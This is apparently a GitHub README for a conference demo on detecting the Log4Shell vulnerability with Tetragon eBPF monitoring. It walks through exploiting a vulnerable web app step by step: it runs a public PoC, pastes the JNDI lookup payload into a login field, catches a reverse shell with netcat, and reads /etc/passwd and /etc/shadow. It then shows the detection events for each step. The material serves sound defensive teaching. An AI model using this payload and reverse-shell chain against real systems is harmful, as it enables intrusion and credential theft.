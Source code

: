 # The Next Log4jshell?! Preparing for CVEs with eBPF!

This repository contains the demo and the corresponding instructions that was presented at
SCALE 20x, Pasadena during the `The Next Log4jshell?! Preparing for CVEs with eBPF!` presentation.

## Environment

### Setup Tetragon as a systemd managed service

Setup Ubuntu VM on Cloud (I specifically used GKE and Ubuntu LTS 22.04). Set the external IP to static IP
instead of an ephemeral one, it'll be reachable from the outside later.

Install Tetragon as a standalone systemd managed service on the Ubuntu VM. For the instructions, 
follow this [guide](https://github.com/cilium/tetragon/tree/main/docs/deployment/package), but do not
start the service until the configurations are not completed.

Place the following configuration files under the `/etc/tetragon/tetragon.conf.d/*`:
```bash
root@scale-2023-log4j-ebpf-vm:/etc/tetragon/tetragon.conf.d# ls -l
total 16
-rw-r--r-- 1 root root 105 Mar  4 16:04 export-allowlist
-rw-r--r-- 1 root root  35 Mar  4 16:04 export-filename
-rw-r--r-- 1 root root  31 Mar  4 16:04 hubble-lib
-rw-r--r-- 1 root root  16 Mar  4 16:04 server-address
-rw-r--r-- 1 root root  16 Mar  4 16:04 config-file
```

Where the content of each file is
```bash
cat export-allowlist
{"event_set":["PROCESS_TRACEPOINT", "PROCESS_LOADER", "PROCESS_EXIT", "PROCESS_EXEC", "PROCESS_KPROBE"]}
root@scale-2023-log4j-ebpf-vm:/etc/tetragon/tetragon.conf.d# cat export-filename
/var/log/tetragon/tetragon.log
root@scale-2023-log4j-ebpf-vm:/etc/tetragon/tetragon.conf.d# cat hubble-lib
/usr/local/lib/hubble-fgs/bpf/
root@scale-2023-log4j-ebpf-vm:/etc/tetragon/tetragon.conf.d# cat server-address
localhost:54321
root@scale-2023-log4j-ebpf-vm:/etc/tetragon/tetragon.conf.d# cat config-file
/etc/tetragon/policy/securitypolicy.yaml
```

Then place the `securitypolicy.yaml` file under the `/etc/tetragon/policy` directory.

### Download Log4jshell PoC

For the PoC, clone the following repository, and follow the remaining instructions from there:
```bash
git clone https://github.com/kozmer/log4j-shell-poc.git
```

## Demo 

(Terminal 0): Start Tetragon:
```bash
sudo systemctl daemon-reload
sudo systemctl start tetragon-enterprise
```

(Terminal 0): Start observing the events from Tetragon:
```bash 
sudo hubble-enterprise getevents -o compact
```

## Demo

(Terminal 1): Run the vulnerable web application as a container on the host network, so we will make sure it uses
the Ubuntu VMs external static IP that we setup previously.

```bash
docker run --network host -d quay.io/natalia-2-pilot/log4j-shell-webapp
```

If we open the web browser and type `<external_ip>:8080`, in my case it's `http://34.118.100.209:8080/`,
then we should be able to see the Login page of the vulnerable application:

![Screenshot](log4j_login.png)

(Terminal 2): Run the `netcat` listener that listens on port `9001` and accepts the reverse shell
connection:

```bash
nc -lvnp 9001
Listening on 0.0.0.0 9001
```

(Terminal 1): Start the POC exploit, that creates the malicious java class and sets up an 
LDAP server which will listen on port `1389`.

```bash
python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

(Terminal 1): Paste the created JNDI lookup string `${jndi:ldap://localhost:1389/a}` to either the username or
password field of the web application, then click on `Login`:

![Screenshot](log4j_malicious_string.png)

(Terminal 1) You should see that the JNDI lookup actually connected to the LDAP, server and downloaded the
malicious `Exploit.class` Java class:

```bash
Send LDAP reference result for a redirecting to http://localhost:8000/Exploit.class
127.0.0.1 - - [04/Mar/2023 15:19:05] "GET /Exploit.class HTTP/1.1" 200 -
```

(Terminal 2) which then sent the reverse shell to the netcat listener:
```bash
root@scale-2023-log4j-ebpf-vm:/home/natalia# nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 53566
```

(Terminal 2): As a verification we can list the files in the current directory:
```
pwd
/usr/local/tomcat
ls -l
total 124
-rw-r--r-- 1 root root  57011 Jun  9  2016 LICENSE
-rw-r--r-- 1 root root   1444 Jun  9  2016 NOTICE
-rw-r--r-- 1 root root   6739 Jun  9  2016 RELEASE-NOTES
-rw-r--r-- 1 root root  16195 Jun  9  2016 RUNNING.txt
drwxr-xr-x 2 root root   4096 Aug 31  2016 bin
drwxr-xr-x 1 root root   4096 Mar  4 10:21 conf
drwxr-sr-x 3 root staff  4096 Aug 31  2016 include
drwxr-xr-x 2 root root   4096 Aug 31  2016 lib
drwxr-xr-x 1 root root   4096 Mar  4 10:21 logs
drwxr-sr-x 3 root staff  4096 Aug 31  2016 native-jni-lib
drwxr-xr-x 2 root root   4096 Aug 31  2016 temp
drwxr-xr-x 1 root root   4096 Mar  4 10:21 webapps
drwxr-xr-x 1 root root   4096 Mar  4 10:21 work
```

(Terminal 2): Or read the content of `/etc/passwd` or `/etc/shadow`:
```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
messagebus:x:104:107::/var/run/dbus:/bin/false

cat /etc/shadow
root:*:17043:0:99999:7:::
daemon:*:17043:0:99999:7:::
bin:*:17043:0:99999:7:::
sys:*:17043:0:99999:7:::
sync:*:17043:0:99999:7:::
games:*:17043:0:99999:7:::
man:*:17043:0:99999:7:::
lp:*:17043:0:99999:7:::
mail:*:17043:0:99999:7:::
news:*:17043:0:99999:7:::
uucp:*:17043:0:99999:7:::
proxy:*:17043:0:99999:7:::
www-data:*:17043:0:99999:7:::
backup:*:17043:0:99999:7:::
list:*:17043:0:99999:7:::
irc:*:17043:0:99999:7:::
gnats:*:17043:0:99999:7:::
nobody:*:17043:0:99999:7:::
systemd-timesync:*:17043:0:99999:7:::
systemd-network:*:17043:0:99999:7:::
systemd-resolve:*:17043:0:99999:7:::
systemd-bus-proxy:*:17043:0:99999:7:::
messagebus:*:17044:0:99999:7:::
```

Starting from the beginning, first we can see that the vulnerable web application reached out to the 
LDAP server on port `1389` and downloaded the `Exploit.class` java file:

```bash
🔌 connect  /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java tcp 127.0.0.1:19685 -> 127.0.0.1:1389
🔌 connect  /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java tcp 127.0.0.1:58085 -> 127.0.0.1:8000
🧹 close    /usr/bin/python3 tcp 127.0.0.1:16415 -> 127.0.0.1:58850
🧹 close    /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java tcp 127.0.0.1:58085 -> 127.0.0.1:8000
```

Then we can see the connection to `9001` from the container of the web application and that 
the reverse shell was sent. And then we can see that the `/bin/sh` process started:
```bash
🚀 process  /bin/sh
🔌 connect  /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java tcp 127.0.0.1:31405 -> 127.0.0.1:9001
🧹 close    /usr/lib/jvm/java-8-openjdk-amd64/jre/bin/java tcp 10.186.0.24:36895 -> 5.204.80.64:60463
```

Tetragon events for the `ls -l` command:
```bash
🚀 process  /bin/ls -l
📬 open     /bin/ls /etc/passwd
📪 close    /bin/ls
💥 exit     /bin/ls -l 0
```

Tetragon events for `cat /etc/passwd`:
```bash
🚀 process  /bin/cat /etc/passwd
📬 open     /bin/cat /etc/passwd
📪 close    /bin/cat
💥 exit     /bin/cat /etc/passwd 0
```

Tetragon events for `cat /etc/shadow`:
```bash
🚀 process  /bin/cat /etc/shadow
📬 open     /bin/cat /etc/shadow
📪 close    /bin/cat
💥 exit     /bin/cat /etc/shadow 0
```

Tetragon events for `vi /etc/passwd`
```bash
🚀 process  /usr/bin/vi /etc/passwd
📬 open     /usr/bin/vi /etc/passwd
📪 close    /usr/bin/vi
📬 open     /usr/bin/vi /etc/passwd
📪 close    /usr/bin/vi
📬 open     /usr/bin/vi /etc/passwd
📪 close    /usr/bin/vi
📬 open     /usr/bin/vi /etc/passwd
📝 write    /usr/bin/vi /etc/passwd 1253 bytes
📪 close    /usr/bin/vi
💥 exit     /usr/bin/vi /etc/passwd 0
```